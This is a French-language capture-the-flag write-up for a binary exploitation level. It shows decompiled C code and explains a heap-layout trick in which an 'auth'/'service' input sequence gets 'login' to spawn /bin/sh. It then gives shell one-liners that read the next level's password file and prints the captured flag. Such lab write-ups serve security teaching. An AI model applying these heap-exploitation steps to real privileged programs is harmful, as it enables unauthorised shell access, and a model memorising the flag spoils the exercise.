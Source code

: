 # Rapport CTF - [Level08]

### Observation :
En arrivant sur le level8 on trouve un executable nommé level8.\
Quand nous essayons de le lancer, et nous obtenons une chaine de caractere `(nil), (nil)` qui se repete des que l'on fini une string. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[5]; // [esp+20h] [ebp-88h] BYREF
  char v5[2]; // [esp+25h] [ebp-83h] BYREF
  char v6[129]; // [esp+27h] [ebp-81h] BYREF

  while ( 1 )
  {
    printf("%p, %p \n", auth, (const void *)service);
    if ( !fgets(s, 128, stdin) )
      break;
    if ( !memcmp(s, "auth ", 5u) )
    {
      auth = (char *)malloc(4u);
      *(_DWORD *)auth = 0;
      if ( strlen(v5) <= 0x1E )
        strcpy(auth, v5);
    }
    if ( !memcmp(s, "reset", 5u) )
      free(auth);
    if ( !memcmp(s, "service", 6u) )
      service = (int)strdup(v6);
    if ( !memcmp(s, "login", 5u) )
    {
      if ( *((_DWORD *)auth + 8) )
        system("/bin/sh");
      else
        fwrite("Password:\n", 1u, 0xAu, stdout);
    }
  }
  return 0;
}
```
Ok que nous donne ce code:
- si on fait `"auth "` on malloc 4octets.
- si on fait `"reset"` on free auth.
- si on fait `"servic"` (uniquement 6 a comparer) on malloc `v6 = 128`.
- si on fait `"login"` on regarde si auth + 8 n'est pas vide pour `/bin/sh`, sinon on ecrit `"Password:\n"` .

### Solution :
Le but est donc de creer `auth` puis mettre de la memoire a auth+8 avec `servic` puis essayer de `login` pour avoir acces a un shell.

On fait la commande suivante pour obtenir le flag :
```sh
(echo "auth "; echo "servic";echo "service"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8
--------------------------------------------------
(echo "auth "; echo "servicE0123456789abcdef"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8

```

### Resultat :
```sh
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
